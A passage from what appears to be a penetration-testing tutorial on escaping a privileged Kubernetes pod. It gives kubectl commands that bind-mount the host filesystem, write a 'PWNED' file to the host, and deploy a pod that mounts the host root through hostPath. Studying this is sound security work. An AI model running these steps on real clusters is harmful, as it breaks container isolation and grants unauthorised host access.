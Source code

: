**Expected Output:**

If the mount is successful, the `ls /mnt/host/etc` command should display a list of files and directories, similar to what you would see when listing the `/etc` directory on a regular Linux system.  If you get an error message like "mount: permission denied" or "mount: Operation not permitted," the container likely lacks the necessary capabilities, or AppArmor/SELinux is preventing the mount.

**Alternative Approach:**

If `mount --bind` fails, try other mount options or device paths, especially looking for existing mounts:

```bash
kubectl exec -it privileged-pod -- bash -c "mount | grep 'type devtmpfs' | awk '{print $3}'"
```

This will list existing device mounts.  Try using `mount --bind` on those, as the permissions might be more permissive.

**Step 3: Validate Host Access by Modifying a File**

To confirm write access, attempt to modify a file on the host filesystem. Be extremely careful when performing this step, as it can potentially damage the host system.  We'll create a temporary file.

```bash
kubectl exec -it privileged-pod -- bash -c "echo 'PWNED' > /mnt/host/tmp/pwned.txt"
```

**Explanation:**

*   `echo 'PWNED' > /mnt/host/tmp/pwned.txt`: Creates a file named `pwned.txt` in the `/tmp` directory on the host's filesystem (accessible via `/mnt/host/tmp` inside the container) and writes the string "PWNED" to it. We use `/tmp` as this directory is generally writable.

**Expected Output:**

If the command executes successfully without any error messages, the file should have been created.

**Step 4: Verify the Modification from the Host (Ideally through another pod)**

The ideal way to verify the success of the file creation is to check if the file exists and contains the expected content on the host itself. Since you are in a penetration testing scenario, simulate this from another pod within the same cluster. Create a temporary pod for this purpose:

```bash
cat <<EOF | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: verifier-pod
spec:
  containers:
  - name: verifier
    image: busybox:latest
    command: ['sleep', '3600']  # Keep the pod running
    volumeMounts:
    - name: host-root
      mountPath: /host
  volumes:
  - name: host-root
    hostPath:
      path: /
      type: Directory
EOF
```
